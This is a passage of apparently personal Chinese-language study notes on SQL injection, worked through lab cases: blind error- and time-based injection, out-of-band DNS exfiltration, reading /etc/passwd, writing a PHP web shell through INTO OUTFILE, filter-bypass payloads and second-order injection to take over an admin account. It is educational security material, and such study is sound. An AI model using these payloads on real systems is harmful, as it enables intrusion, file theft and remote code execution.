使用发送到repearer 中,尝试在cookie中检查注入点



尝试添加单引号后,页面提示出现了错误,可以确定爵士Trackingid 这个字段存在注入点,尝试使用注释时,错误消失



因为他不会在页面上给我们显示任何错误的信息,我们尝试使用盲注

使用条件语句触发盲注无法实现,在添加了 如下代码后,页面还是显示正常



> 在使用报错盲注时,请确认数据库的指纹,否则一切都是失败的!!!!!

使用某些数据库软件独有函数和方法来测试数据库的类型,使用字符串拼接时,我们通过文档知道,可能是Oracle或者PostgreSQL数据库软件



,由于Oracle 在select语句后面必须跟from ,我们这里用这个来确定到底是那个数据库





可以确定是Oracle数据库,我们使用条件成立和不成立来测试一下

```sql
' AND (SELECT CASE WHEN (1=0)THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
' AND (SELECT CASE WHEN (1=1)THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
```





可以看到,  思路是正确的,现在我们修改条件,猜测administrator 的密码,首先猜测密码的长度,可是使用爆破器来爆破,也可以使用二分查找很快的定位,例如使用这个条件,如果密码长度大于10的时候报错,说明条件成立

```sql
 (LENGTH(password)>10) 
```



如果条件为 `(LENGTH(password)>20) 页面正常,说明密码的长度在大于10 不大于20的区间`



最后经过查找,密码长度等于20字符,之后我们可以使用自动化的工具进行攻击,例如使用集束炸弹,选择下面一种条件进行攻击

```sql
ASCII(substr(password,1,1))=32
substr(password,1,1)='a'
```



## **Time-Based SQLi**

如果应用程序在执行 SQL 查询时捕获到数据库错误并妥善处理，则应用程序的响应不会有任何区别。这意味着之前用于触发条件错误的技术将不再有效。在这种情况下，通常可以利用盲注 SQL 注入漏洞，通过触发时间延迟来判断注入条件的真假。由于 SQL 查询通常由应用程序同步处理，因此延迟执行 SQL 查询也会延迟 HTTP 响应。这样，就可以根据接收 HTTP 响应所需的时间来判断注入条件的真假。

### 案例1

例如，当尝试确定表中的列数时，您可以使用以下查询：`admin123' UNION SELECT SLEEP(5);--`

如果响应时间没有暂停，我们就知道查询不成功，因此像之前的任务一样，我们添加另一列：`admin123' UNION SELECT SLEEP(5),2;--`

该有效载荷应该产生 5 秒的延迟，确认 UNION 语句成功执行并且有两列。现在，您可以重复基于布尔值的 SQL 注入中的枚举过程 ，只需将 SLEEP() 方法添加到 UNION SELECT 语句中即可。

# 带外注入 (Out-of-band SQLi)

应用程序可能会执行与之前示例相同的 SQL 查询，但以异步方式执行。应用程序在原始线程中继续处理用户的请求，并使用另一个线程通过跟踪 cookie 执行 SQL 查询。该查询仍然容易受到 SQL 注入攻击，但目前为止描述的任何技术都无法奏效。应用程序的响应不依赖于查询是否返回任何数据、是否发生数据库错误或查询执行所花费的时间。

1. 触发场景：异步处理与纯盲环境
   当 Web 应用程序采用异步方式执行 SQL 查询时（例如：主线程快速响应用户的 HTTP 请求，同时将包含注入点的任务丢给后台独立线程处理），前端的 HTTP 响应将不再受数据库底层行为的影响。在这种场景下，无论是查询结果、数据库报错，还是查询执行的时长（延迟），都不会在前端响应中体现。这意味着传统的带内注入（联合查询、报错）和推断型盲注（布尔、时间）将彻底失效。
2. 技术原理：建立独立通信通道
   面对上述极端盲注场景，攻击者可以利用带外网络交互（OOB）来突破限制。OOB 技术的原理是构造特殊的 SQL 语句，迫使数据库服务器主动向攻击者控制的外部服务器发起网络请求。通过利用数据库服务器可能支持的 HTTP、DNS 或 SMB 等网络协议，攻击者建立了一个独立于 Web 请求的第二通信通道。这不仅允许攻击者通过条件触发来逐条推断信息，更重要的是，可以直接将敏感数据拼接在网络交互请求中向外窃取（数据外带）。
3. 首选协议：DNS 的穿透优势
   虽然多种协议都可用于外带数据，但实战中最有效且最常用的是 DNS（域名系统）协议。由于 DNS 解析是生产系统正常运行的基础刚需，大多数严格配置的内网防火墙和安全策略也会允许 DNS 查询自由出站。
4. 核心优势：隐蔽性与可靠性

规避安全审查：通过分离“攻击载荷发送通道（HTTP 入站）”与“数据接收通道（DNS 出站）”，攻击者可以有效绕过针对直接数据库交互的防火墙、入侵检测系统（IDS）和其他常规监控机制。

无视网络限制：攻击者通常会将 SQL 注入的查询结果作为子域名，触发数据库向攻击者控制的恶意域名发起 DNS 解析请求（例如：[敏感数据].attacker.com）。即使在攻击者与目标之间的直接连接受限的复杂网络环境中，这种机制依然能保证数据稳定、隐蔽地被窃取。



带外攻击（OAST）技术是检测和利用盲注 SQL 注入的有效方法，因为它成功率高，并且能够直接在带外通道中窃取数据。因此，即使在其他盲注攻击技术有效的情况下，OAST 技术通常也是更优的选择。

# 读取和写入文件

除了从数据库管理系统 (DBMS) 中的各种表和数据库中收集数据外，SQL 注入还可以用于执行许多其他操作，例如在服务器上读取和写入文件，甚至在后端服务器上获得远程代码执行权限。

读取数据比写入数据要常见得多。在现代数据库管理系统（DBMS）中，写入数据严格限制于特权用户，因为这可能导致系统漏洞利用，我们稍后会看到。例如，在 MySQL 中，数据库用户必须拥有 FILE 权限才能将文件内容加载到表中，然后从该表中导出数据并读取文件。因此，让我们首先收集有关用户在数据库中的权限信息，以确定是否要对后端服务器进行文件读取和/或写入操作。

## 案例1

首先，我们必须确定我们在数据库中的用户身份。虽然我们不一定需要数据库管理员 (DBA) 权限才能读取数据，但在现代 DBMS 中，这变得越来越重要，因为只有 DBA 才拥有此类权限。这同样适用于其他常见数据库。如果我们拥有 DBA 权限，那么我们更有可能拥有文件读取权限。如果没有，那么我们必须检查我们的权限，看看我们可以做什么。为了找到我们当前的数据库用户，我们可以使用以下任意查询：

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

我们的 UNION 注入载荷如下：

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

或者

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

当知道用户后,我门尝试开始查找该用户拥有的权限。首先，我们可以使用以下查询测试我们是否具有超级管理员权限：

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

如果数据库管理系统中有很多用户，我们可以添加 WHERE user="root" 来仅显示当前用户 root 的权限：

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```



查询结果为 Y ，表示 YES 超级用户权限。我们还可以使用以下查询直接从模式中导出我们拥有的其他权限：

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -

```

接下来，我们可以添加 WHERE grantee="'root'@'localhost'" 来仅显示当前用户的 root 权限。我们的有效载荷将是：

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

我们看到了赋予当前用户的所有可能的权限：

我们看到用户拥有 FILE 权限，这使我们能够读取文件，甚至可能写入文件。因此，我们可以尝试读取文件。

既然我们已经拥有读取本地系统文件的权限，接下来就使用 LOAD_FILE() 函数来实现。LOAD_FILE () 函数可用于 MariaDB/MySQL 数据库，从文件中读取数据。该函数仅接受一个参数，即文件名。以下查询示例展示了如何读取 /etc/passwd 文件：

```sql
SELECT LOAD_FILE('/etc/passwd');
```

类似于我们使用 UNION 注入的方式，我们可以使用上述查询：

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```



## 案例2

当前页面是 search.php 的默认网站根目录是 /var/www/html 。让我们尝试读取 /var/www/html/search.php 文件的源代码。

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```



然而，页面最终会在浏览器中渲染 HTML 代码。按下 [Ctrl + U] 即可查看 HTML 源代码。



源代码显示了完整的 PHP 代码，可以对其进行进一步检查，以查找数据库连接凭据等敏感信息或发现更多漏洞。

## 案例3--写文件

在现代数据库管理系统（DBMS）中，向后端服务器写入文件会受到更多限制，因为我们可以利用这一点在远程服务器上编写 Web Shell，从而执行代码并控制服务器。因此，现代 DBMS 默认禁用文件写入，并要求数据库管理员（DBA）拥有特定权限才能写入文件。在写入文件之前，我们必须首先检查自己是否拥有足够的权限，以及 DBMS 是否允许写入文件。

为了能够使用 MySQL 数据库将文件写入后端服务器，我们需要三样东西：

1. 已启用具有 FILE 权限的用户
2. MySQL 全局 secure_file_priv 变量未启用
3. 对后端服务器上我们要写入的位置的写入权限

在案例2中我们已经确认当前用户拥有写入文件所需的 FILE 权限。现在我们需要检查 MySQL 数据库是否也拥有该权限。这可以通过检查全局变量 secure_file_priv 来实现。

` secure_file_priv` 变量用于确定文件的读写权限。空值允许我们从整个文件系统读取文件。否则，如果设置了特定目录，则只能从该变量指定的文件夹读取文件。另一方面， NULL 表示无法从任何目录进行读写操作。MariaDB 默认将此变量设置为空，这意味着如果用户拥有 FILE 权限，则可以读写任何文件。然而， MySQL 使用 /var/lib/mysql-files 作为默认文件夹。这意味着在默认设置下，通过 MySQL 注入读取文件是不可能的。更糟糕的是，某些现代配置的默认值为 NULL ，这意味着无法在系统中的任何位置进行读写操作。

那么，我们来看看如何获取 secure_file_priv 的值。在 MySQL 中，我们可以使用以下查询来获取该变量的值：

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

然而，由于我们使用了 UNION 注入，因此必须使用 SELECT 语句来获取值。这应该不会有问题，因为所有变量和大多数配置都存储在 INFORMATION_SCHEMA 数据库中。MySQL 全局变量存储在名为 `global_variables `的表中，根据文档，该表包含两列 `variable_name` 和 `variable_value `。

我们需要从 INFORMATION_SCHEMA 数据库的表中选取这两列数据。MySQL 配置中有数百个全局变量，我们不想全部检索出来。接下来，我们将使用之前章节中学习过的 WHERE 子句筛选结果，只显示 secure_file_priv 变量。

最终的 SQL 查询如下：

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

因此，与其他 UNION 注入查询类似，我们可以使用以下有效负载获得上述查询结果。

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```



结果显示 secure_file_priv 值为空，这意味着我们可以对任何位置的文件进行读写操作。

既然我们已经确认用户需要将文件写入后端服务器，那么让我们尝试使用 SELECT .. INTO OUTFILE 语句来实现。SELECT INTO OUTFILE 语句可以将 SELECT 查询结果写入文件。这通常用于从表中导出数据。

要使用此功能，我们可以在查询语句后添加 INTO OUTFILE '...' ，将结果导出到指定的文件中。以下示例将 users 表的输出保存到 /tmp/credentials 文件中：

```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

也可以直接将字符串 SELECT 到文件中，从而允许我们将任意文件写入后端服务器。

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

> 提示：高级文件导出利用“FROM_BASE64("base64_data")”函数以便能够写入长/高级文件，包括二进制数据。

> 注意： 要编写 Web shell，我们必须知道 Web 服务器的基本 Web 目录（即 Web 根目录）。一种方法是使用 load_file 读取服务器配置，例如 Apache 的配置位于 /etc/apache2/apache2.conf 的配置位于 /etc/nginx/nginx.conf 的配置位于 %WinDir%\System32\Inetsrv\Config\ApplicationHost.config 。我们也可以在线搜索其他可能的配置位置。此外，我们还可以运行模糊测试，尝试向不同的 Web 根目录写入文件，可以使用 Linux 的字典文件或 Windows 的字典文件 。最后，如果以上方法均无效，我们可以使用服务器显示的错误信息来查找 Web 目录。

确认写入权限后，我们可以继续将 PHP Web Shell 写入 webroot 文件夹。我们可以编写以下 PHP WebShell，以便能够直接在后端服务器上执行命令：

```php
<?php system($_REQUEST[0]); ?>
```

我们可以重用之前的 UNION 注入有效载荷，并将字符串更改为上述内容，文件名更改为 shell.php ：

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

可以通过浏览到 /shell.php 文件并使用 URL 中的 ?0=id 参数，通过 0 参数执行命令来验证这一点：



id 命令的输出确认我们拥有代码执行权限，并且正在以 www-data 用户身份运行。

# 过滤绕过

具体参见[文档](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#generic-waf-bypass)

1. #### 字符编码


   - **URL 编码** ：URL 编码是一种常用方法，其中字符使用百分号 (%) 后跟其十六进制 ASCII 值来表示。例如，有效载荷 `' OR 1=1--` 可以编码为 `%27%20OR%201%3D1--` 。这种编码可以帮助输入通过 Web 应用程序过滤器并被数据库解码，避免数据库在初始处理过程中将其识别为恶意代码。
   - **十六进制编码** ：十六进制编码是另一种使用十六进制值构造 SQL 查询的有效技术。例如，查询 `SELECT * FROM users WHERE name = 'admin'` 可以编码为 `SELECT * FROM users WHERE name = 0x61646d696e` 。通过将字符表示为十六进制数，攻击者可以绕过在处理输入之前未解码这些值的过滤器。
   - **Unicode Encoding** ：Unicode 编码使用 Unicode 转义序列来表示字符。例如，字符串 `admin` 可以编码为 `\u0061\u0064\u006d\u0069\u006e` 。此方法可以绕过仅检查特定 ASCII 字符的过滤器，因为数据库将正确处理编码后的输入。
2. #### 无引号 SQL 注入

   当应用程序过滤单引号或双引号或转义符时，使用无引号 SQL 注入技术。

   使用数字类型 ：一种方法是不使用引号或其它需要引号的数据类型。例如，在不需要引号的环境中，攻击者可以使用 `OR 1=1` 代替 ==' OR '1'='1==，这种技术可以绕过专门寻找转义或去除引号的过滤器，从而使注入得以进行。

   使用SQL注释：另一种方法涉及使用SQL注释来终止查询的其余部分。例如，输入admin'--可以转换为admin--，其中--表示SQL中注释的开始，从而有效地忽略SQL语句的其余部分。这有助于绕过过滤器并防止语法错误。

   使用 CONCAT() 函数：攻击者可以使用像 CONCAT() 这样的 SQL 函数来构建不带引号的字符串。例如，CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e) 构建字符串 admin。CONCAT() 函数和类似方法允许攻击者构建字符串而不直接使用引号，这使得过滤器检测和阻止有效载荷变得更加困难。
3. #### 不允许有空格绕过

   当不允许使用空格或将空格过滤掉时，可以使用各种技术来绕过此限制。


   - **用注释替换空格** ：一种常见的方法是使用 SQL 注释 ( `/**/` ) 替换空格。例如，攻击者可以使用 `SELECT/**/*FROM/**/users/**/WHERE/**/name/**/='admin'` 代替 `SELECT * FROM users WHERE name = 'admin'` 。SQL 注释可以替换查询中的空格，从而使有效载荷能够绕过删除或阻止空格的过滤器。
   - **制表符或换行符** ：另一种方法是使用制表符 ( `\t` ) 或换行符 ( `\n` ) 代替空格。某些过滤器可能允许这些字符，从而使攻击者能够构建类似 `SELECT\t*\tFROM\tusers\tWHERE\tname\t=\t'admin'` 的查询。此技术可以绕过专门查找空格的过滤器。
   - **替代字符** ：一种有效的方法是使用替代 URL 编码字符来表示不同类型的空格，例如 `%09` （水平制表符）、 `%0A` （换行符）、 `%0C` （换页符）、 `%0D` （回车符）和 `%A0` （不间断空格）,`%0B` (垂直制表符)。这些字符可以替换有效载荷中的空格。
4. #### 一些技巧罢了

   | **Scenario 设想**                                                           | **Description 描述**                                         | **Example 例子**                                                                                        |
   | --------------------------------------------------------------------------------- | ------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------- |
   | ** SELECT 等关键字被禁止**                                                        | SQL 关键字通常可以通过改变其大小写或添加内联注释来分解它们来绕过   | SElEcT * FrOm users or SE/**/LECT * FROM/**/users                                                       |
   | **禁止使用空格**                                                            | 使用替代空格字符或注释来替换空格可以帮助绕过过滤器。               | SELECT%0A*%0AFROM%0Ausers or SELECT/**/*/**/FROM/**/users                                               |
   | **Logical operators like AND, OR are banned 禁止使用 AND、OR 等逻辑运算符** | 使用替代逻辑运算符或连接来绕过关键字过滤器。                       | username = 'admin' && password = 'password' or username = 'admin'/**/\|\|/**/1=1 --                     |
   | **禁止使用 UNION、SELECT 等常用关键字**                                     | 使用等效表示形式（例如十六进制或 Unicode 编码）来绕过过滤器。      | SElEcT * FROM users WHERE username = CHAR(0x61,0x64,0x6D,0x69,0x6E)                                           |
   | **禁止使用 OR、AND、SELECT、UNION 等特定关键字**                            | .使用混淆技术通过将字符与字符串函数或注释相结合来伪装 SQL 关键字。 | SElECT * FROM users WHERE username = CONCAT('a','d','m','i','n') or SElEcT/**/username/**/FROM/**/users |
   |                                                                                   |                                                                    |                                                                                                               |

## 案例1

页面存在注入点



该页面有很强的过滤,空格的各种编码也完全过滤了,当使用

```sql
'AND'1'='1
```



使用

```sql
'AND'1'='2
```



AND 居然奏效了,为什么他两边不需要空格也可以?

> 在 MySQL 中，单引号 '、双引号 "、括号 () 以及算术符号（如 =、+、-）本身就自带“天然分隔符”的属性
> 如果你写成数字的比较：1AND1=1
> 数据库会怎么读？它读完 1，紧接着读到了 A，没有遇到任何引号或括号，它就会把 1AND1 连在一起，当成一个奇奇怪怪的列名或者未知函数去解析，最后直接报错。
> 这个时候，你就必须加空格：1 AND 1=1，用空格强行告诉数据库“它们是分开的”
> 当你加上单引号变成 '1'AND'1' 时，由于单引号自带“一刀切”的隔离效果，数据库绝不会把 '1' 和 AND 混为一谈。此时，空格加不加都一样，数据库都能完美识别出三个独立的词：'1'、AND、'1'。

事实上,我这这里卡住了,不能使用空格意味着 不能使用 `order by` 猜测列数,b不能使用 `union select` 联合查询 ,这如何是好
在 `UNION SELECT` 下,可以这样使用 ,因为这个程序在末尾会添加'),而且是程序最后的语言,所以这里没有使用注释,而是巧妙的利用了他

```sql
UNION(SELECT(1),2,3,'4
```



# 二阶注入Second-Order SQL Injection

指用户提供的数据被应用程序存储，随后以不安全的方式嵌入到 SQL 查询中。与一阶 SQL 注入（攻击载荷立即执行）不同，二阶 SQL 注入涉及两个步骤。首先，攻击者提交恶意输入并存储在数据库中。之后，当应用程序检索并处理这些存储的数据时，恶意输入才会被执行。

假设有一个允许用户更新个人资料的 Web 应用程序。该应用程序会将用户输入的信息存储在数据库中。之后，当用户查看个人资料时，应用程序会检索这些数据并将其整合到 SQL 查询中，但并未进行适当的清理。攻击者可以利用这一点，在用户更新个人资料期间提交恶意代码，该代码会在用户查看个人资料时执行。

## 案例1



当我门在标题和内容使用如图所示的内容时,提示我们

> QLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'b', 'testuser', 'default_value', NOW())' at line 2



意识到可能的封闭后面有括号,试图用 `')-- -` 来尝试



提示插入值列表与列列表不匹配：1136 列数与值数在行 1 不匹配

也就意味着这里使用了 `INSERT INTO 表名 (字段1,字段2) VALUES (值1,值2);` 来向数据库插入数据

根据第一次报错猜测,值数应该不小于5个,类似

```
INSERT INTO 表名 (字段1,字段2...,标题字段,内容字段,用户名字段,默认字段,时间字段) VALUES (值1,值2...,标题,内容,用户名,default_velue,NOW());
```

当前我们不知道到底在标题字段中之前还有没有字段,假如构造如下的查询:



点击发布后,没有任何的错误,并且跳转到首页,我们能看到新发布的文章,我们点击文章后,可以看到



证实了当前我们猜测的没有错,接下来,我们可以使用子查询来获取数据库的内容了

```sql
1','2','3',(select group_concat(schema_name) from information_schema.schemata),NOW())-- -
```



> 子查询记得包裹在()中

## 案例2

案例要求登录admin获得flag,页面提供了登陆和注册的功能



有了案例1的经历,马上尝试创建新的用户,也许那里就有注入点,当我们都提交'时



页面提示



经过尝试注册这里好像没有什么办法的情况下,我注册了用户,并登陆后如下:



提供了修改密码的功能,是否马上想到了`UPDATE 表名 SET 字段=值 WHERE 条件;`

这条语句了,如果后端查询为:

```
UPDATE 表名 SET 字段='newpassword' WHERE username='当前用户名';
```

如果注册用户名为 `admin'-- -` ,当我们更新密码时,是不是能更新admin用户的密码呢,类似于:

```sql
UPDATE 表名 SET 字段='newpassword' WHERE username='admin'-- -;
```



当修改密码后,重新登陆admin,使用我们新设置的密码,完成登陆


# 备忘录

https://portswigger.net/web-security/sql-injection/cheat-sheet
